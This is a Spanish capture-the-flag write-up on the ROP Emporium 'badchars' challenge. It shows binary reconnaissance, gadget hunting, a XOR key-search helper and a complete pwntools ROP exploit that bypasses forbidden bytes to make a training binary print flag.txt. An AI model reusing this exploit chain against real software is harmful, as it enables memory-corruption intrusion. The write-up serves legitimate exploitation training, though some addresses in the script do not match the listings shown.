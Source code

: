 ```yaml
---
title: badchars
date: 2024-08-13
tier: 
author: naibu3
---
```

#writeup 
# Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

Según el enunciado, el reto es igual al [[write4|anterior]]. Pero, debemos lidiar con *badchars*, es decir, carácteres que el binario no puede interpretar correctamente.

Primero analizaremos con [[gdb]]-[[pwndbg]]:

```gdb
0x00000000004004d8  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400640  __libc_csu_init
0x00000000004006b0  __libc_csu_fini
0x00000000004006b4  _fini
```

Efectivamente es igual que el anterior.

Al ejecutar el binario nos lista los badchars:

```badchars
[...]
badchars are: 'x', 'g', 'a', '.'
```

Nuestro problema es que necesitamos dichos carácteres para formar la cadena `flag.txt`. Para ello utilizaremos una técnica que consiste en aplicar un *XOR* al valor que introducimos y revertirlo mediante un gadget. Por ejemplo, si aplicamos un XOR a cada byte de `flag.txt` con un `2`, obtenemos `646e63652c767a76`, y si volvemos a aplicarlo, volvemos a tener `flag.txt`.

Para encontrar un valor con el que aplicar el XOR que no genere ningún badchar, podemos utilizar [[python]]:

```python
badchars = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]  
sh = "/bin/sh\x00"  
#Loop 0 to 255  
for i in xrange(255):  
    flag = True  
    # 8 loops, for 8 bytes we concat the result of the xor  
    new_sh = "".join([chr(i^ord(sh[x])) for x in xrange(len(sh))])  
    #Now we loop through all 8 bytes of bad chars and if it's found in new string we ignore it  
    for b in badchars:  
        if chr(b) in new_sh:  
            flag = False  
    #If we made it past the bad character check we print out the result and exit  
    if flag:  
        print "^"+str(i)  
        print new_sh.encode('hex')  
        exit()
```
> Cambiando *"/bin/sh"* por *"flag.txt"* y el valor de los badchars

Con [[ropper]] podemos buscar gadgets excluyendo dichos badchars:

```asm
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x00000000004006a3: pop rdi; ret;
```

El gadget más importante es el que nos permite realizar un *WOR* al contenido de la dirección guardada en *r15*. Para ello, utilizaremos el `mov qword ptr [r13], r12; ret;` para guardar la cadena en una sección con permisos de R/W.

Por tanto, ambos, *r13* y *r15* apuntarán a dicha sección, *r12* contendrá la cadena y *r14* la clave para el XOR (`0x02`).

Además, debemos buscar una sección con permisos de lectura/escritura donde guardar los datos, lo haremos con [[radare2]]:

```bash
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7e 0x004003c0   0x7e -r-- STRTAB      .dynstr
7   0x0000043e   0x14 0x0040043e   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000458   0x20 0x00400458   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000478   0x30 0x00400478   0x30 -r-- RELA        .rela.dyn
10  0x000004a8   0x30 0x004004a8   0x30 -r-- RELA        .rela.plt
11  0x000004d8   0x17 0x004004d8   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x192 0x00400520  0x192 -r-x PROGBITS    .text
14  0x000006b4    0x9 0x004006b4    0x9 -r-x PROGBITS    .fini
15  0x000006c0   0x10 0x004006c0   0x10 -r-- PROGBITS    .rodata
16  0x000006d0   0x44 0x004006d0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000718  0x120 0x00400718  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- STRTAB      .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

Utilizaremos, al igual que en el ejercicio anterior, la sección *.bss*.

# Explotación

El script será muy similar al anterior, pero deberemos aplicar el XOR a los datos:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.arch = 'amd64'
context.bits = 64
exe = './badchars'

def start():
    
    return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def xor2(str):
    res = ""
    for i in str:
        res += chr(int(hex(ord(i))[2::], 16) ^ 2)
    return res

io = start()

# DEBUG
#gdb.attach(io, '''
#    break *0x0000000000400628
#    continue
#''')

padding=40*b'A' #Same as previous

# 0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
pop_values = p64(0x000000000040069c)

xor_key = p64(0x2)

xored_flag = bytes(xor2("flag.txt"), 'utf-8')


rw_section = 0x00601030

# 0x0000000000400634: mov qword ptr [r13], r12; ret;
load_string = p64(0x0000000000400634)

# 0x00000000004006a0: pop r14; pop r15; ret; 
popr14_r15_ret = p64(0x00000000004006a0)

# 0x0000000000400628: xor byte ptr [r15], r14b; ret;
xor = p64(0x0000000000400628)


# 0x00000000004006a3: pop rdi; ret;
pop_rdi = p64(0x00000000004006a3)

# 0x0000000000400510  print_file@plt
print_file = p64(0x0000000000400620)

payload = padding + pop_values + xored_flag + p64(rw_section) + xor_key + p64(rw_section)
payload += load_string

# Iteramos los 8 bytes de la cadena
for i in range(8):
    payload += popr14_r15_ret
    payload += p64(2)
    payload += p64(rw_section + i)
    payload += xor

payload += pop_rdi + p64(rw_section) + print_file

io.send(payload)

io.interactive()
```